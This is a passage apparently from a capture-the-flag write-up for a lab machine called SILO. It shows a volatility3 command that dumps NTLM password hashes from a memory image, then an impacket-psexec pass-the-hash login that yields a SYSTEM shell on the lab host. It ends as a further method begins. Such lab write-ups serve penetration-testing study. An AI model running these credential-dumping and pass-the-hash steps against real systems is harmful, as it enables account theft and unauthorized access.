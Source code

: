 ```console
MachineType     34404
KeNumberProcessors      2
SystemTime      2018-01-05 22:18:07
NtSystemRoot    C:\Windows
NtProductType   NtProductServer
NtMajorVersion  6
NtMinorVersion  3
PE MajorOperatingSystemVersion  6
PE MinorOperatingSystemVersion  3
PE Machine      34404
PE TimeDateStamp        Thu Aug 22 08:52:38 2013
```

2. Use volatility3 to dump user hashed from memory

```console
└─╼$ python ~/pwk/tools/volatility3/vol.py -f SILO-20180105-221806.dmp windows.hashdump.Hashdump
Volatility 3 Framework 2.6.0
Progress:  100.00               PDB scanning finished
User    rid     lmhash  nthash

Administrator   500     aad3b435b51404eeaad3b435b51404ee        9e730375b7cbcebf74ae46481e07b0c7
Guest   501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
Phineas 1002    aad3b435b51404eeaad3b435b51404ee        8eacdd67b77749e65d3b3d5c110b0969
```

3. Connect to Windows as admin using psexec

```console
└─╼$ impacket-psexec administrator@10.129.133.187 -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.133.187.....
[*] Found writable share ADMIN$
[*] Uploading file uRZMQZJL.exe
[*] Opening SVCManager on 10.129.133.187.....
[*] Creating service mzZX on 10.129.133.187.....
[*] Starting service mzZX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

### Method3: Oracle DB Hosted by Admin

Enumerate processes:

- w3wp: IIS server -> hosted by user
- oracle, OraClrAgnt, TNSLSNR: orcale database -> hosted by N/A not user -> host by **admin** (guess)
  because only two users in this machine: defaultapppool, admin
